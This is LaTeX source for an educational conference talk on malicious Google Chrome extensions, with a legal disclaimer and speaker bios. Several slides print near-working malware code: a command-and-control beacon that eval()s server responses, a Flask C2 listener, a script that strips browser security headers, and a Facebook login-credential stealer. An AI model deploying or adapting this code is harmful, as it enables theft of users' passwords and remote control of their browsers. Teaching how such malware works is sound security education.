\documentclass[aspectratio=169]{beamer}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{eso-pic}

\usepackage{minted}
\usepackage{hyperref}
\usepackage{animate}

\usepackage{tcolorbox}

\makeatletter
\newenvironment{myitemize}{%
   \setlength{\topsep}{0pt}
   \setlength{\partopsep}{0pt}
   \renewcommand*{\@listi}{\leftmargin\leftmargini \parsep\z@ \topsep\z@ \itemsep\z@}
   \let\@listI\@listi
   \itemize
}{\enditemize}
\makeatother

\graphicspath{{img/}}

\usetheme{Warsaw}
\usemintedstyle{monokai}

\setbeamercolor{normal text}{fg=white,bg=black!90}
\setbeamercolor{structure}{fg=white}
\setbeamercolor{alerted text}{fg=red!85!black}
\setbeamercolor{item projected}{use=item,fg=black,bg=item.fg!35}
\setbeamercolor*{palette primary}{use=structure,fg=structure.fg}
\setbeamercolor*{palette secondary}{use=structure,fg=structure.fg!95!black}
\setbeamercolor*{palette tertiary}{use=structure,fg=structure.fg!90!black}
\setbeamercolor*{palette quaternary}{use=structure,fg=structure.fg!95!black,bg=black!80}
\setbeamercolor*{framesubtitle}{fg=white}
\setbeamercolor*{block title}{parent=structure,bg=black!60}
\setbeamercolor*{block body}{fg=black,bg=black!10}
\setbeamercolor*{block title alerted}{parent=alerted text,bg=black!15}
\setbeamercolor*{block title example}{parent=example text,bg=black!15}
\setbeamertemplate{navigation symbols}{}
\setbeamercolor{footercolor}{fg=white,bg=black}

\makeatletter
\defbeamertemplate*{footline}{myfootline}
{
  \leavevmode%
  \hbox{%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
    \insertshorttitle
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
    \insertshortauthor\expandafter\beamer@ifempty\expandafter{\beamer@shortinstitute}{}{~~(\insertshortinstitute)}
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,right]{footercolor}%
    \insertshortdate{}\hspace*{2em}
    \insertframenumber{} / \inserttotalframenumber\hspace*{2ex} 
  \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\title{Girls PowerTech - Google Chrome Malware}

\institute{GoSecure}
\author{Lilly Chalupowski and Xandria Richman}
\date{May 3, 2018}

\begin{document}

\setbeamertemplate{footline}{}
\begin{frame}[t]
  \begin{center}
    \begingroup
    \fontsize{20pt}{20pt}\selectfont
    \inserttitle \\
    \endgroup
    \bigskip
      
\includegraphics[scale=1]{title} \\
    \bigskip
    \insertauthor \\
    \insertdate
  \end{center}
\end{frame}

\newcommand\AtPagemyUpperLeft[1]{\AtPageLowerLeft{%
\put(\LenToUnit{0.94\paperwidth},\LenToUnit{0.93\paperheight}){#1}}}
\AddToShipoutPictureFG{
  \AtPagemyUpperLeft{{
\includegraphics[width=1cm,keepaspectratio]{gosecure}}}
}%

\setbeamertemplate{footline}[myfootline]

\begin{frame}
  \frametitle{Introduction}
  \begin{center}
    
\includegraphics[scale=0.4]{women_in_tech}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Xandria Richman}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.33]{xandria_richman}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{center}
        \begin{tcolorbox}[title=\href{https://www.linkedin.com/in/xandria-richman-8b0153bb/}{Biography},colback=gray]
          \begin{itemize}
            {\color{black} \tiny
            \item Bachelor of Computer Science from UNB
            \item Volunteered for UNB to help introduce girls to technology
            \item Joined GoSecure in 2016 and has obtained a leadership position
            \item Found Flaws in Canada-wide loyalty card program
            \item Previously worked at Siemens Canada and IBM
            }
          \end{itemize}
        \end{tcolorbox}
      \end{center}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}
  \frametitle{Lilly Chalupowski}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.5]{lilly_chalupowski}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{center}
        \begin{tcolorbox}[title=\href{https://lillypad.github.io}{Biography},colback=gray]
          \begin{itemize}
            {\color{black} \tiny
            \item Studied Computer Science and Audio Engineering at Acadia University
            \item Almost 100\% self taught on programming and hacking
            \item Presented at AtlSecCon on ROP Chain Exploitation
            \item Presented at AtlSecCon on Google Chrome Malware
            \item Taught SQL Injection and Phishing Awareness to Digital Nova Scotia Discovery Camp Kids
            \item Volunteers for Techsploration and mentoring girls looking to enter the tech industry
            \item Badger - ASLR Entropy and PE File Security Enumerator
            \item Chameleon - Custom Base64 Encoder
            \item Chrome Crusader - Google Chrome Malware and Botnet
            }
          \end{itemize}
        \end{tcolorbox}
      \end{center}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}
  \frametitle{Disclaimer}
  \framesubtitle{Stay Alert Stay Safe}
  \begin{tcolorbox}[title=disclaimer.log,colback=gray]
    The tools and techniques covered in this presentation can be dangerous and are\\
    being shown for educational purposes.\\
    \newline
    It is a violation of Federal laws to attempt gaining unauthorized access to information, assets or systems belonging to others, or to exceed authorization on systems for which you have not been granted.\\
    \newline
    Only use these tools with/on systems you own or have written permission from the owner. We (the speakers) do not assume any responsibility and shall not be held liable for any illegal use of these tools.\\
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \frametitle{What is Malware}
  \begin{center}
    \animategraphics[loop,controls,scale=0.4]{10}{img/malware/malware-}{0}{15}
    \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Malware}{Definition of Malware},colback=gray]
      Software that is intended to damage or disable computers and computer systems.
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Google Chrome}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.32]{google_chrome}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{center}
        \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Google_Chrome}{Google Chrome},colback=gray]
          {\small A freeware web browser developed by Google.}
        \end{tcolorbox}
      \end{center}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}
  \frametitle{Malware Inside Google Chrome}
  \framesubtitle{How is it possible?}
  \begin{center}
    
\includegraphics[scale=0.2]{how}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Google Chrome Extensions}
  \framesubtitle{Which one is Malware?}
  \begin{center}
    
\includegraphics[scale=0.3]{extensions}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{How does it Work?}
  \begin{center}
    \begin{itemize}
    \item Access All Page Data
    \item Bypass Security Headers
    \item AJAX Requests
    \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Accessing All Page Data}
  \begin{center}
    \begin{itemize}
    \item Extensions live inside the browser
    \item Able to access the DOM (rendered page data)
    \item Works on HTTP as well as HTTPS websites (includes banking websites)
    \item Steals information
      \begin{itemize}
      \item Usernames
      \item Passwords
      \item Cookies
      \item IP Address
      \item Conversations
      \end{itemize}
    \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Bypass Security Headers}
  \begin{center}
      \begin{tcolorbox}[title=Security Header Definition,colback=gray]
        Data that exists within the HTTP protocol as headers that is sent by a server to a browser to invoke security policies.
      \end{tcolorbox}
      \begin{itemize}
      \item Feature is built in
      \item Allows modification of security headers
      \item Part of Google's Custom JavaScript Extension API
      \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{AJAX Requests}
  \begin{center}
    \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Ajax_(programming)}{AJAX Definition},colback=gray]
      With Ajax (Asynchronous JavaScript + XML), Web applications can send and retrieve data from a server asynchronously (in the background) without interfering with the display and behavior of the existing page.
    \end{tcolorbox}
    \begin{itemize}
    \item Send data back and forth in the background
    \item Execute commands based on the data you receive
    \item This is why a page can update data on it's own
    \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Languages Used}
  \framesubtitle{What do they do?}
  \begin{center}
    \begin{itemize}
    \item JavaScript
      \begin{itemize}
        \item Modification and access to DOM (rendered page data)
      \end{itemize}
    \item JSON
      \begin{itemize}
        \item Configuration Files
      \end{itemize}
    \item Python
      \begin{itemize}
        \item Collect data and send commands
      \end{itemize}
    \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Terminology}
  \framesubtitle{manifest.json}
  \begin{center}
    \begin{tcolorbox}[title=\href{https://developer.chrome.com/apps/manifest}{manifest.json definition},colback=gray]
      Every app has a JSON formated manifest.json file, that provides important information.\\
      \newline
      This information includes:\\
      \begin{itemize}
      {\color{black}
      \item permissions
      \item project file names
      \item project paths
      \item other configuration options}
      \end{itemize}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Terminology}
  \framesubtitle{Command \& Control Server}
  \begin{center}
    \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Botnet}{Command and Control Server Definition},colback=gray]
      A computer controlled by an attacker or cybercriminal which is used to send commands to systems compromised by malware and receive stolen data from a target network.
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Terminology}
  \framesubtitle{Hooking}
  \begin{center}
    \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Hooking}{Hooking Definition},colback=gray]
      In computer programming, hooking covers a range of techniques used to alter or augment the behavior of an operating system, of applications, or of other software components by intercepting function calls or messages or events passed between software components. Code that handles such intercepted function calls, events or messages is called a hook.
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{JavaScript CnC}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        var config = {                                                                      //CnC server configuration
          server: "127.0.0.1",                                                              //Our test CnC server
          port: 80                                                                          //CnC port
        };
        function cnc(data, callback){                                                       //CnC Handler
	      try{
		    let http = new XMLHttpRequest();
		    http.onreadystatechange = function(){
		      if (this.readyState == 4 && this.status == 200){
				callback(this.responseText);                                //Callback function
				return true;
			  }
			  if (this.readyState == 4 && this.status != 200){
				return false;                                               //Try to fail silently
			  }
		    };
		    http.open('POST', 'http://' + config.server + ':' + config.port, true); //Connect to CnC server
		    http.setRequestHeader('Content-Type', 'application/json');
		    http.send(JSON.stringify(data));                                        //Send the data
		    return true;
	      } catch(error){
		    return false;
	      }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Hooking the Browser}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function sleep(ms) {
	      try {
		    return new Promise(resolve => setTimeout(resolve, ms));
	      } catch(error){
		    return false;
	      }
        }

        async function hook(){                   //Async hook to run in background in loop
          try {
            let data = {};                       //Any data you like here
            for (;;){
              cnc(data, function(responseText){
                eval(responseText);              //Execute the command sent back by CnC server
                return true;
              });
              await sleep(10000);                //Sleep for 10s
            }
          } catch(error){
            return false;
          }
        }
        
        hook();
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{The CnC Server}
  \begin{center}
    \begin{tcolorbox}[title=server.py,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{python}
        #!/usr/bin/env python
        
        import sys
        import json
        from flask import Flask
        from flask import request

        @app.route("/", methods=["POST"])
        def cnc_listener():
            try:
                data = request.json
                print(json.dumps(data, indent=4))
                if 'bot' in data:
                    return "console.log('1337 botnet dude')"
                return json.dumps(
                    data,
                    indent=4
                ), 200, {'Content-Type': 'application/json'}
            except Exception as e:
                return json.dumps(
                    {
                      'error': 'invalid request'
                    },
                    indent=4), 500, {'Content-Type': 'application/json'}
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function removeMatchingHeaders(headers, regex, callback){
          for (let i = 0; i < headers.length; i++){
            if (headers[i].name.match(regex)){
              headers.splice(i, 1);
              callback(headers);
              return true;
            }
          }
          return false;
        }
        function remove_security_headers(details){
          removeMatchingHeaders(
            details.responseHeaders,
            /x-xss-protection/i,
            function(headers){
              return true;
            }
          );
        }
        chrome.webRequest.onHeadersReceived.addListenter(
          remove_security_headers,
          {urls: ['*://*/*']},
          ['blocking', 'responseHeaders']
        );
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Stealing Facebook Credentials}
  \begin{center}
    \begin{tcolorbox}[title=facebook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        document.getElementById('loginbutton').getElementsByTagName('input')[0].addEventListener('click',function(){
		  try {
			let email = document.getElementById('email'); //Get Email Address Element
			let pass = document.getElementById('pass');   //Get Password Element
			if (email.value != '' && pass.value != ''){   //Check if data was entered in login fields
                          let data = {                                //Capture timestamp, site, user and pass
				"auth": {
				  timestamp: Date.now(),
				  site: "facebook.com",
				  user: email.value,
				  pass: pass.value
				}
			  };
			  cnc(data, function(data){                  //Send the data to to CnC server
				return true;
			  });
                          return true;
                       }
	               return false;
		  } catch(error){
			return false;                                //Try to fail silently
		  }
	    });
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Demo}
  \framesubtitle{Pray to the Demo Gods!}
  \begin{center}
    
\includegraphics[scale=0.5]{demogods}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Questions?}
  \framesubtitle{No such thing as a silly question!}
  \begin{center}
    
\includegraphics[scale=0.4]{questions}
  \end{center}
\end{frame}

\end{document}